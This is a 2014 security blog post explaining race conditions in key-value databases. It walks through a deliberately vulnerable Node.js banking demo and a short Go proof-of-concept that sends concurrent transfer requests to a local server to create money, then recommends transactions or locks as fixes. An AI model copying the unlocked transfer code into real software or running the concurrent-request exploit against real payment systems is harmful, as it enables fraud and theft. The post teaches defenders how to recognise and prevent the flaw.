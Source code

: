 ```yaml
---
date: 2014-06-24 22:35:25 GMT
slug: two-reads-dont-make-a-write
tags: security, node.js
title: Two Reads Don't Make a Write
author: Tom Steele
type: text
---
```


Database race conditions are hard to identify and tricky to exploit, but if an attacker is able to leverage this weakness, the results can be devastating. [Flexcoin](http://flexcoin.com/) had such a weakness in their application, and allowed an attacker to steal enough bitcoins that they were forced to shutdown, more information on this specific situation is available [here](http://hackingdistributed.com/2014/04/06/another-one-bites-the-dust-flexcoin/).

Race conditions can occur no matter what backend solution you choose. Traditional databases support [transactions](http://en.wikipedia.org/wiki/Database_transaction) to prevent them. But most key-value data stores do not have such mechanisms. This is well known, and in many cases is not deal breaker. But it is important to understand when this should be a requirement, or at least when a compensating control is needed. 

Key-value data stores are a large part of modern application development, and growing in popularity. Solutions like Riak, LevelDB, MongoDB, etc. give you increased flexibility and development efficiency, as well as other benefits which have been covered and discussed extensively. With the benefits also come weaknesses, or maybe a better word is differences.

Rather than writing a long explanation centered around a theoretical situation, I decided to write a tiny application to quickly demonstrate this vulnerability. Enter [raceybank](https://github.com/tomsteele/raceybank), a little Node application with a LevelDB backend. This is incredibly simple and somewhat silly, but it demonstrates the issue well.

We're going to walk through the application now. There are instructions in the repository so you can follow along at home. 

Consider we have a banking application, or maybe we have a store that gives a user credits. Whatever. Let's look at our user model.

~~~~~javascript
module.exports = new dulcimer.Model({
    id: {
        derive: function() {
            return this.key.split('!')[1];
        }
    },
    name: {
        type: 'string',
        required: true
    },
    money: {
        type: 'integer',
        required: true
    }
}, { db: db, name: 'user'});
~~~~~

Pretty straight forward, we have a user with a unique id, a name, and some amount of money. Our application consists of two routes, `GET /users` and `POST /transfer`. Here is the transfer route.


~~~~~javascript
function handleTransfer(request, reply) {
    var to = null;
    var from = null;
    var amount = request.payload.amount;

    if (request.payload.to === request.payload.from) {
        return reply().code(400);
    }

    async.parallel([function (cb) {
        User.get(request.payload.to, function (err, user) {
            if (err) {
                return cb(err);
            }
            to = user;
            return cb();
        });
    }, function (cb) {
        User.get(request.payload.from, function (err, user) {
            if (err) {
                return cb(err);
            }
            from = user;
            return cb();
        });
    }], foundUsers);

    function foundUsers(err) {
        // Something happened or we didnt find the users.
        if (err || !to || !from) {
            return reply().code(404);
        }

        // Validate from has the funds for this transfer.
        if (from.money < amount) {
            return reply().code(403);
        }

        // Transfer the money.
        from.money -= amount;
        to.money += amount;
        async.parallel([function (cb) {
            from.save(function (err) {
                cb(err);
            });
        }, function (cb) {
            to.save(function (err) {
                cb(err);
            });
        }], saveUsers);
    }

    function saveUsers(err) {
        if (err) {
            return reply().code(500);
        }
        return reply();
    }
}
~~~~~

It's a bit of code, but the gist is we read two users from the database, validate the transferrer has the requested amount of funds, decrement from transferrer, increment transferee's funds, and save the user records. Once we have the application started, we can see that some seed data has been initialized by calling `GET /users` (note: you would never want to return this much information, but this is a demo).

~~~~~shell
$ curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 100,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 100,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 100,
        "name": "Carol"
    }
]
~~~~~

Alice, Bob, and Carol all have 100 something, let's call it dollars, resulting in a total economy of $300. We'll transfer $100 from Alice to Bob, and then attempt to transfer $100 from Alice to Carol.

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000002", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 200 OK
~~~~~

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000003", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 403 Forbidden
~~~~~

The first request succeeds and the second fails because Alice does not have enough money. But we made these requests sequentially, what happens if we make these requests concurrently? I'll show you! Here is some quick Go code to make the magic happen. All it does is make the same two requests, but concurrently in two goroutines.

~~~~~go
package main

import (
    "bytes"
    "log"
    "net/http"
    "sync"
)

func main() {
    req1 := []byte(`{"to": "0000000002", "from": "0000000001", "amount": 100.00}`)
    req2 := []byte(`{"to": "0000000003", "from": "0000000001", "amount": 100.00}`)
    wait := &sync.WaitGroup{}
    wait.Add(2)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req1)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req2)

    wait.Wait()
    log.Println("done")
}
~~~~~

We restart the application to reset our data and run our exploit.

~~~~~shell
$ ./exploit-osx
2014/06/24 15:03:19 done
~~~~~

Check out users balances.

~~~~~shell
curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 0,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 200,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 200,
        "name": "Carol"
    }
]
~~~~~

Carol and Bob both have $200. WE JUST CREATED MONEY. No we're not Midas, we're simply exploiting a race condition. Alice is read twice before the write. So each request instance believes they have the required funds.

This is a traditional example and often used as the argument for why transactions are important. In a real bank there would be much stricter control and fraud prevention to prevent this from going unnoticed. But not everyone is a big bank with unlimited resources, and not every situation will deal with dollars and cents. This could be occur in something of relatively low importance, but still be a bug that could drive you to madness.

How can we prevent this? To me, this depends on the nature of the data being handled. If it's crucial financial data I would opt for a traditional database (there are NoSQL solutions that support transactions as well). If not, or you're already heavily invested in a existing solution, you can apply a lock/mutex around the troublesome operation. A few modules exist in Node land to solve this, including [lock](https://github.com/dominictarr/lock) and [padlock](https://github.com/fritzy/padlock). There are other mitigations, and some databases offer recommendations or built in mechanisms; investigate what works for you, look for this pattern, and test for it.

